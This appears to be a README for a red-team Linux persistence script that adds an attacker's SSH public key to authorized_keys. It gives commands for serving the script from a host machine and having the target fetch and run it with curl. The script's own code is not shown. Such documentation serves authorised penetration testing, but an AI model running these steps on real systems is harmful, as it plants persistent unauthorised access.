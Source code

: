 # Persistence Phase

Definition...  

Available parts:
- Modify SSH Keys

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/lin-persistence.sh
sh lin-persistence.sh -h
```
```sh
# Local network
# Host:
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target:
curl -LJO <Host>:8000/lin-persistence.sh
sh lin-persistence.sh -h
```

### Parameters
```sh
sh lin-persistence.sh -h

Usage: sh lin-persistence.sh [-h] [-s]

-s <SSH public key>
  Trying to add ssh public key to authorized_keys
```

## Results

Results are output directly to the STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 